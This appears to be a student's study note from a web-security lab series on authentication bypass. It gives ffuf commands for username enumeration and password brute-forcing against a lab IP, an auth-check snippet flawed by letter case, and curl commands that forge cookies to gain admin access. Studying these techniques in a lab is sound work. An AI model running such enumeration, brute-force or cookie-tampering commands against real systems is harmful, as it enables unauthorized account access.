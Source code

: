 ```yaml
---
title: "07. Authentication Bypass"
section: "web-security"
date: 2022-03-21
tags: ["enumeration", "logic flow"]
---
```


## Username Enumeration

Username enumeration is a technique used to identify valid usernames on a system or application. It often involves exploiting error messages or behavioral differences in the system's response to valid and invalid usernames. 

![wap6](media/wap6.png)

We can enumerate user's using above error message.

```shell
user@machine$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u <http://10.10.84.98/customers/signup> -mr "username already exists"
```

| Tag   | Explanation                                       |
| ----- | ------------------------------------------------- |
| `-w`  | wordlist file.                                    |
| `-X`  | Specifies method. (eg: POST)                      |
| `-d`  | Specifies the data that is going to be sent       |
| `-H`  | Used for adding additional headers to the request |
| `-u`  | URL                                               |
| `-mr` | match text from response.                         |

We can bruteforce password also.

```bash
user@tryhackme$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u <http://10.10.84.98/customers/login> -fc 200
```
## Logic Flow

An Authentication logic flaw happens when a adversary bypasses the authentication logic due to certain flaws in it’s implementation.

**Example** : 

```php
if( url.substr(0,6) === '/admin') {  
# Code to check user is an admin  
} else {  
# View Page  
}
```

Because the above PHP code example uses three equals signs `===`, it’s looking for an exact match on the string, including the same letter casing. The code presents a logic flaw because an unauthenticated user requesting **/adMin** will not have their privileges checked and have the page displayed to them, totally bypassing the authentication checks.

## Cookie Tampering

attacker alters the contents of a cookie to gain unauthorized access to a user's account or to manipulate their session.

```
curl -H “Cookie: logged_in=true; admin=false” [http://10.10.84.98/cookie-test](http://10.10.84.98/cookie-test) 
```
logged_in is set true and admin is set to false resulting in a user login

```
curl -H “Cookie: logged_in=true; admin=true” [http://10.10.84.98/cookie-test](http://10.10.84.98/cookie-test)
```
logged_in is set to true and admin is set to true resulting in a admin login

**Hashing** :  Cookies sometimes contain long strings of seemingly random characters, known as hashes. These hashes are an irreversible representation of the original text.

![wapimg](https://miro.medium.com/v2/resize:fit:481/1*CXaoh7kU6-9ecSNF8cms5A.png)

**Encoding** 

Encoding is similar to hashing in that it creates what would seem to be a random string of text, but the encoding is reversible.

> If encoding is reversible, what is point in cookie encoding ?
> Encoding transforms binary data into human-readable text, facilitating safe transmission over mediums limited to plain text ASCII characters.


